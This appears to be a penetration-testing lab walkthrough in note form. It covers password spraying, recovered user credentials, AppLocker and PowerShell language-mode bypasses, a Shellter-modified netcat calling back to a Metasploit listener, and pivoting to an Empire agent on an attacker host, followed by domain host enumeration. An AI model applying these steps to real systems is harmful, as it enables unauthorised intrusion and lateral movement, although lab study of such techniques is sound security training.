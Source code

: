 <p>password list:
Summer2017!
Winter2017!
Fall2017!
Spring2017!
Summer2018!
Winter2018!
Fall2018!
Spring2018!</p>

<p>user credentials found:
avazquez:Spring2017!
mholliday:Summer2017!
wbaird:Autum2017!</p>

<p>use an rdp client to login to RDS02 at 10.8.14.17
we can see windows defender and applocker are preventing us from executing most things
running $ExecutionContext.SessionState.LanguageMode
tells us we're running in a ConstrainedLanguage mode</p>

<p>pasting the contents of applocker-bypas-checker.ps1 into notepad and saving as a ps1 file allows us to run with powershell
running show us the \windows\Tasks, \windows\tracing\, \windows\system32\spool\drivers\color  allow "BUILTIN\USERS" to write/createFiles &amp; execute auth</p>

<p>Escaping ConstrainedLanguage mode with Powershdll:
-running powershell without the powershell.exe</p>

<p>Using Shellter to trick Applocker
-nc.exe "rewired" to call to a waiting metasploit listener</p>

<p>Going from msf to empire (via Chryzsh):
In Empire:
create a default http listener named "http"
-uselistener http
-set Host 10.7.253.10
-set Port 4444
-execute
create copy launcher, created w/o base64
-back
-usestager multi/launcher
-set Base64 false
-generate</p>

<p>In MSF:
-load powershell
-powershell_shell
-paste listener and execute await agent in empire</p>

<p>with empire we can enumerate the system:</p>

<h2>ComputerName</h2>

<p>DC01
WS03
FS01
MX01
WEB01
WS05
RDS02
SQL01</p>

